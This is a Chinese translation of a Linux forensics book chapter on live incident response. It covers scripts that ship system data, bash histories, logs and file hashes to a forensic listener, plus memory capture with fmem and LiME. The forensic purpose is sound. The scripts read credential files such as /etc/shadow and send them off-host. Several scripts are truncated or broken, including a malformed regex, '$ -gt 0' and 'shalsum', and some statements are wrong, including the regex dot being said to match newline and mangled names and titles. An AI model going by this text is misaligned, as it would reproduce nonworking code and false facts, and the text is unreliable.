查看图 2.30 中 `lightdm` 账户的行，我们观察到 shell 应该设置为 `/bin/false`。这是用于禁用某些系统账户的常用技术。从 `last` 命令的结果可以看出，该用户能够登录。这是调查 `/bin/false` 二进制文件的原因。

### 结合脚本进行

没有正理由手动记住上述所有命令。由于你已经挂载了一个带有已知良好二进制文件的驱动器，那么在你的响应驱动器上有一个脚本为你完成所有工作是有意义的。以下是一个用于初始扫描的简单脚本。该脚本非常直接，主要由调用本章之前介绍的 `send-log.sh` 组成。

```
### initial-scan.sh

# 简单脚本，用于收集初始现场应急

### 基础信息。

### 由 Phil Polstra 博士 (@ppolstra) 开发，

### PentesterAcademy.com。

usage () {

  echo "usage: $0 [listening host]"

  echo "向监听器发送日志条目的简单脚本"

  exit 1

}
```

```bash
# 你是否指定了监听器 IP?

if [ $# -gt 1 ] || [ "$1" == "--help" ]; then

  usage

fi

# 你是否指定了监听器 IP?

if [ "$1" != "" ]; then

  source setup-client.sh

fi

# 现在收集一些信息！

send-log.sh date
send-log.sh uname -a
send-log.sh ifconfig -a
send-log.sh netstat -an
send-log.sh lsof -V
send-log.sh ps -ef
send-log.sh netstat -rn
send-log.sh route
send-log.sh lsmod
send-log.sh df
send-log.sh mount
send-log.sh w
send-log.sh last
send-log.sh lastb
send-log.sh cat /etc/passwd
send-log.sh cat /etc/shadow
```


### 总结

我们在这一章中涵盖了很多内容。介绍了在确定是否发生事件时，尽量减少对系统干扰的方法。在下一章中，一旦你确定，我们将讨论进行全面的现场分析。

### 现场分析

本章包含信息：
* 文件元数据
* 时间线
* 用户历史
* 日志分析
* 哈希处理
* 内存转储
* 脚本自动化

### 发生了事件：现在

本章中的信息：
是否有攻击者创建的新账户？是否有人修改了账户以允许系统账户登录？是否因为用户使用了不安全的密码导致系统被入侵？检查 `/etc/passwd` 和 `/etc/shadow` 文件可以帮助你回答这些问题。

根据上一节脚本的输出，可以根据修改时间、创建时间和访问时间进行排序，这将非常有帮助。虽然它不是一个将这些时间戳交织在一起的正的时间轴，但可以在几分钟内创建出来。

第一步是在取证工作站上用你喜欢的文本编辑器打开案例的 `log.txt` 文件。如果你希望列有标题（推荐），则也要按照指示，从 `send-fileinfo.sh` 脚本中剪切并粘贴注释（去掉开头的 `#`）。将文件保存为 `.csv` 扩展名并在 LibreOffice Calc（或你喜欢的电子表格软件）中打开。你将看到如图 3.3 所示的界面。点击每一列并如图所示设置其类型。这样做会导致日期和时间按字母顺序排序，这并不是你想要的结果。



图 3.3

将带有文件元数据的 CSV 文件导入 LibreOffice Calc。注意，每个列的类型都应设置为允许正确排序。

文件导入后，可以通过选择所有相关行并从数据菜单中选择排序来轻松排序。点击并拖动电子表格顶部的列字母（应该是 A-M）可以最方便地选择列。按访问时间降序排序的相应排序命令如图 3.4 所示。



### 图 3.4

可以使用类似的技术按修改时间或创建时间进行排序。最好将此电子表格复制并粘贴到多个标签页（技术上称为工作表），并将生成的工作簿保存为普通的 Calc 文件。将信息复制到新工作表简单的方法是点击左上角的空白单元格（1 的上方，A 的左侧），按 `Control-C`，进入新工作表，点击相同的左上角单元格并按 `Control-V`。

目标系统此类电子表格的创建标签页如图 3.5 所示。高亮行显示可疑的 `/bin/false` 文件是在我们攻破期间创建的，并且 Yi Quan rootkit 已安装。注意，某些 rootkit 文件的访问时间在我们攻破前后，但根据可能被更改过的元数据，它们是在之后才创建和修改的。



图 3.5
按创建时间排序的 `/bin` 目录文件元数据。高亮行显示 `/bin/false` 在我们攻破期间被修改过，并且 Xing Yi Quan rootkit 似乎已经安装。

### 检查用户命令历史

`bash`（Bourne Again Shell）是 Linux 用户最流行的选项。它通常是默认 shell。`Bash` 将用户的命令历史存储在主目录下的 `.bash_history` 文件中。以下脚本使用 `find` 工具在主目录（包括 root 的主目录 `/root`）中搜索这些文件。老练的攻击者会删除这些文件和或将它们的最大大小设置为零。对于调查人员来说，幸运的是，并不是所有攻击者都知道这样做。

```
### send-history.sh

#

# 简单脚本，将所有用户 bash 历史文件作为

# 初始现场响应的一部分发送

### 由 Phil Polstra 博士 (@ppolstra) 编写，

# 用于 PentesterAcademy.com.

usage () {

echo "usage: $0"

echo "简单脚本将用户历史文件发送到日志监听器"

exit 1

}

if [ $ -gt 0 ]; then
```

这段代码需要一点解释。解释行尾字符最简单的方法是：它们是行延续符。这使得脚本在书中打印时更具可读性。这种行延续符可以在 Python 等脚本语言中使用，尽管它并不是那些语言的首选方法。

现在我们已经描述了字符，让我们处理脚本中一些更复杂的部分。`find` 命令具有按类型搜索的能力。`find /home -type f` 指令在 `/home` 下搜索文件（而不是目录、设备等）。

除了按名称查找，`find` 还允许使用正则表达式处理文件名。如果你熟悉正则表达式，它们定义模式的强大方式。关于正则表达式（也称为 regex）的完整教程超出了本书的范围。有很多在线资源，如 http://www.regular-expressions.info/，供想要了解更多信息的人。Jeffrey E. Fried 编写的《Mastering Expressions》（O'Reilly, 2006）对于偏于本书的人来说是一个极好的资源。

正则表达式具有匹配自身的字符（字面量）和具有特殊含义的字符（元字符）。在元字符集中，我们有匹配项、锚点和数量限定符。有时我们希望元字符视为字面量，我们通过在它们前面加上转义符号来实现。一些常见的元字符是字符类（方括号内的字符列表）和点 `.`，它们分别匹配列表中的任何字符和换行符。由于 `.` 是元字符，当你想要匹配点时必须对其进行转义，正如脚本中的正则表达式所示。

常用的数量限定符包括 `*`、`+` 和 `?`，分别表示零或多个、一个或多个以及零或一个。限定符适用于前面的字面量、元字符或分组。例如，正则表达式 `A+` 意味着一个或多个 A。另一个例子 `[A-Z]?[a-z]+` 匹配任何小写字母，或者大写字母后面跟着一个多个小写字母。如果我们将脚本中的正则表达式拆分为三个部分，很容易理解：第一部分 `"home/"` 是一个字面量，匹配用户主目录所在的目录。第二部分 `"[a-zA-Z]+"` 匹配一个或多个小写字母或大写字母。最后部分是另一个字面量，但这次对其进行了转义。换句话说，正则表达式 `"/.bash_history"` 匹配字面量 `"/.bash_history"`。

`find` 命令的剩余部分使用 `-exec` 选项为找到每个文件运行三个命令。在任何看到 `{}` 的地方，`find` 命令都会将其替换为找到的文件名。你知道它是如何工作的：首先用第二个 `-exec` `cat` 文件，最后在输出中添加页脚。在扫描所有用户主目录后，运行一个稍微修改的 `find` 命令打印 root 用户的 bash history（如果存在）。

图 3.6 显示了 bash history 的部分。看起来攻击者尝试使用 `sed`（脚本编辑器）修改 `/etc/passwd` 文件。似乎他或她遇到了一些麻烦，因为他们也看了 `sed` 的主页，最终只使用了 `vi`。在该文件的几行之后，我们看到正在安装 Xing Yi Quan rootkit 并使用 `ls` 命令验证其隐藏的目录。



图 3.6

用户 bash history 的部分。顶部的行表示尝试修改账户信息。在下面我们看到与 rootkit 安装相关的命令。

### 获取日志文件

与 Windows 不同，Linux 在许多情况下仍使用纯文本日志。这些日志通常可以在 `/var/log` 目录下找到。有些位于该目录，另一些位于子目录。大多数日志会有 `.log` 扩展名或没有扩展名。保存旧版本的日志是常见做法。这些存档日志具有相同的文件名加上 `.n`（其中 `n` 是正整数）。一些较旧的日志还用 gzip 压缩，赋予它们 `.gz` 扩展名。例如，如果日志文件名为 `my.log`，最近的存档为 `my.log.1`，较旧的存档为 `my.log.2.gz`、`my.log.3.gz` 等。脚本将使用 `find` 工具从目标系统检索当前日志文件并发送到取证工作站。在检查当前日志后，如果你确定它们没有涵盖你调查的时间段（这通常意味着他们应该更早联系你），你可以轻松使用之前介绍的 `send-file.sh` 脚本发送你认为必要的任何日志。当然，如果你已经决定进行离线分析，最好只需查看这些，离线分析可用工具会让这变得简单得多。

```
### send-logfiles.sh

# 简单脚本，将所有日志作为

# 初始现场响应的一部分发送。

# 警告：此脚本可能运行良好！

# 由 Phil Polstra 博士 (@ppolska) 编写，

# 用于 PentesterAcademy.com.

usage() {

  echo "usage: $0"

  echo "简单脚本将日志文件发送到日志监听器"

  exit 1

}

if [ $ -gt 0 ]; then

  usage

fi

# 仅查找文件，排除带有数字的文件因为它们是旧日志

send-log.sh find /var/log -type f -regextype posix-extended \
```


```
-regex "/var/log/[a-zA-Z.]+([a-zA-Z.]+*" \
-exec echo "-dumping logfile {} -n" \; \
-exec cat {} \; -exec echo "-end of dump for logfile {} -n" \;
```

此脚本与之前的获取历史脚本使用了相同的元素，但有一个例外。正则表达式中包含了一些新内容。我们使用括号将内容分组，以便应用 `*` 标识符（零或多次）。如果将正则表达式分成三个部分，会更容易理解。

第一部分 `/var/log/` 匹配字面字符串，即日志文件所在的普通目录。第二部分 `[a-zA-Z]+` 匹配一个或多个字母或点。这将匹配任何当前的日志文件或目录，排除归档日志（归档日志未包含在方括号内）。最后部分 `/[a-zA-Z.]+` 与第二部分相同，但它被包裹在括号中，并在后面紧跟一个 `*`。这种分组允许 `*` 标识符（零或多次）应用于括括号内的所有内容。零次情况匹配位于 `/var/log` 中的日志，一次情况匹配子目录中的下一层级。

图 3.7 显示了我们系统的部分日志文件。在图片的上部，你可以看到 `dmesg`（设备消息）日志的尾部。注意，该日志没有使用时间戳，它是自启动以来的计数。`syslog`（系统日志）的开头在图片的下部。我们可以看到 `syslog` 使用了时间戳。还有其他日志完全不提供时间信息。与 `bash` 历史类似，此类日志仅提供执行的顺序。



图 3.7

系统通知中导出的部分日志文件。注意，某些日志包含时间戳，而另一些则包含自启动以来的秒数，或者根本没有时间。

## 收集文件哈希

互联网上有许多哈希数据库，包含了已知良好文件和已知恶意文件的哈希值。这是寻找恶意软件的最佳方法吗？绝对不是！尽管如此，与使用防病毒软件分析文件或尝试对其逆向工程相比，检查哈希值要快得多。一个良好的哈希数据库可以让你从考虑范围中排除大量文件。然而，通过消除分析中的已知良好文件来减少必须查看的文件数量，要有用得多。

两个流行的免费哈希数据库包括由 Web 应用安全项目（OWASP）提供的 https://www.owasp.org/index.php/OWASP_File_Hash_Repository，以及来自美国标准与技术研究院（NIST）的 http://www.nsrl.nist.gov/。截至本文写作时，它们都支持 `MD5` 和 `SHA-1`。在下面的脚本中，它们应该支持更现代的算法：

```
### send-shalsum.sh

# 用于初始现场事件响应中

# 计算 sha sum 的简单脚本。

# 警告：此脚本运行可能需要很长时间！

# 由 Phil Polstra 博士 (@polstra) 开发，

# 为 PentesterAcademy.com 设计。

usage () {

  echo "usage: $0 <starting directory>"

  echo "向日志监听器发送 SHA1 哈希传输的简单脚本"

  exit 1

}

if [ $# -lt 1 ]; then

  usage

fi

# 仅查找文件，不进入其他文件系统

# 对所有找到的文件执行命令 shalsum -b <filename>

find $1 -xdev -type f -exec shalsum -b {} \;
```


一旦我们在此处使用新脚本，就出现了一个新选项 `-xdev`。此选项告诉 `-b` 不要跟随指向其他文件系统的符号链接。命令 `shalsum -b {filename}` 在计算文件名的 SHA1 哈希时，会将其视为二进制文件。

在目标机器的 `/bin` 目录上运行此脚本的局部结果如图 3.8 所示。高亮行显示 `/bin/bash` 和 `/bin/false` 具有相同的哈希值。看起来攻击者覆盖了 `/bin/false` 和 `/bin/bash`。这可能就是像 lightdm 这样的系统账户尽管管理员尝试通过将 shell 设置为 `/bin/false` 来禁用登录仍然能够登录。



图 3.8

在目标系统的 `/bin` 目录上运行 `sha-1sum.sh` 的部分结果。`/bin/bash` 和 `/bin/false` 文件具有相同的哈希值，表明攻击者覆盖了 `/bin/false`。

## 导出内存

捕获运行系统的完美方法是什么？获取 RAM 中内容的副本。这允许你精确地重现机器的状态。好吧，并不完全精确，但对于我们的调查目的来说足够了。像 Volatility 这样最近发布的工具使得获取内存镜像变得特别有用。然而，今天获取这些并不一定容易。

许多年前，当计算机只有 1GB 或更少的 RAM 时，在 Linux 中获取内存镜像非常容易。部分原因之一是 Linux 的“一切皆文件”的哲学也适用于 RAM。设备 `/dev/mem` 代表所有的物理 RAM。该设备今天仍然存在，但它只能访问物理 RAM 的前 896 MB。

虚拟内存（物理 RAM 加上交换到磁盘的内存）可以通过 `/dev/kmem` 设备访问。全球 Linux 社区很快发现，拥有一个可以访问所有内存的奇迹之地（非内核或特权模式）设备是一个巨大的安全漏洞。今天 `/dev/kmem` 已被移除。现在需要替代方法来捕内存镜像。

### 内存获取方法

有用于捕获内存的硬件设备。内存内存导出代理。这些是企业解决方案的一部分。这两种获取内存镜像的方法都很贵，因为它们必须在入侵之前就到位。都没有被广泛使用。

除了上述两种选择外，如果你想捕获内存，你需要创建一个可以访问所有虚拟内存的设备。顺便说，这假设你的设备运行在虚拟机内部。这里介绍的技术适用于物理和虚拟系统。

取证内存设备 fmem 可以从 http://hysteria.sk/~nickt/fmem_current.tgz 下载。由于 fmem 设备（以及后将讨论的 LIME 设备）高度依赖于各种内核结构，它必须从源码构建。记住关于在目标系统上构建的早期警告。一旦构建完成，新的 `/dev/fmem` 就像 `/dev/mem`，但没有访问前 896 MB 的限制。可以使用 `/dev/fmem` 导出物理 RAM。使用 fmem 你将获得原始内存镜像。用于构建和安装 fmem 的终端截图如图 3.9 所示。注意 fmem 足够简单，整个构建和安装显示在一个屏幕上。



图 3.9

构建并安装 fmem。执行 `cat /proc/iomem` 命令将打印出一长串信息，大部分信息对取证调查人员来说没有意义。如果我们使用 `grep`（GNU 正则表达式解析）从结果中提取“System RAM”项，使用命令 `cat /proc/iomem | grep “System RAM"`，我们将看到哪些内存块应该被捕获。`cat /proc/iomem` 的未过滤输出输出以及管道到 `grep “System RAM"` 的结果如图 3.10 所示。



### 图 3.10

`cat /proc/iomem` 文件的结果。未过滤的结果显示在顶部，系统内存显示在底部。

## 构建 LiME

Linux 内存提取器 `LiME` 是 Linux 系统提取内存的首选工具，原因有两个。首先，它非常易用，更重要的是，它将捕获内容存储在 Volatility 内存分析框架可以读取的格式中。`LiME` 必须从源码构建。`LiME` 应该为目标系统的精确内核版本构建，但绝不要在目标系统上构建。如果你的取证工作站恰好是目标系统使用的相同的 Ubuntu 版本，命令 `sudo apt-get install lime-forensics-dkms` 将为你下载并构建 `LiME`。

对于其他任何情况，你必须从 https://github.com/504ensicsLabs/Lime 下载 `LiME`，使用命令 `git clone https://github.com/504ensicsLabs/Lime` 并使用正确的内核头文件对其进行编译。如果你的工作站和目标系统的内核完全一致，只需切换到 `LiME` 所在的目录并运行不带参数的 `make` 即可构建 `LiME`。下载并为当前内核构建 `LiME` 的完整命令集如图 3.11 所示。注意，即使我误操作了命令（在切换到 `src` 目录之前运行了 `make`），所有内容也能显示在一个屏幕内。此外，注意最后一行将 `lime.ko` 文件重命名为 `file-<kernel version>.ko`。



图 3.11
为当前内核下载并构建 `LiME`。注意在使用此方法时，模块会自动会自动命名为 `lime-<kernel version>.ko`。

如果内核版本不同，为目标系统构建 `LiME` 的正确命令是 `make -C /lib/modules/<kernel version>/build M=$PWD`。注意，当你以这种方式构建 `LiME` 模块时，输出文件不会带有精确内核版本的后缀重命名。我强烈建议你自己执行操作，因为在你的响应驱动器上收集一组 `LiME` 内核模块并不会花费长时间。构建和重命名并非为当前内核构建的 `LiME` 模块的命令如图 3.12 所示。

图 3.12
为非当前内核构建 `LiME`。建议在创建 `lime.ko` 文件后将其重命名为更具描述性的名称。

## 使用 LiME 转储 RAM

假设你已经为目标系统正在使用的内核版本构建了 `LiME`，现在你已经准备好可以使用了。在使用 `LiME` 之前，你必须做两个选择：第一个选择是输出格式，第二个选择是转储文件的目的地（`LiME` 将其称为路径）。

有三种格式：`raw`（原始）、`padded`（填充）和 `LiME`。`raw` 格式是所有内存段的拼接。当使用 `raw` 格式时，包含零块的内存区域会被跳过。`padded` 与 `raw` 类似，但会保留零，这样你就可以内存块的位置，而不仅仅是其内容。

意所当然，`LiME` 格式是推荐的格式。这种格式捕获内存并存储在带有元数据的结构中。这是 Volatility 内存分析框架的作者推荐的格式。我也推荐这种格式，因为它为你稍后的分析包含了最多的信息。

`LiME` 支持两种不同的路径：文件或网络端口。如果你为目标计算机连接了大容量 USB 驱动器，直接将 RAM 转储存储到该文件中是可以接受的。在任何情况下都不应将此文件保存到目标系统的硬盘上！网络端口路径是我提取内存镜像的首选方法。使用此技术时，会在目标系统上设置监听器，并在取证工作站上使用 `netcat` 接收内存转储。
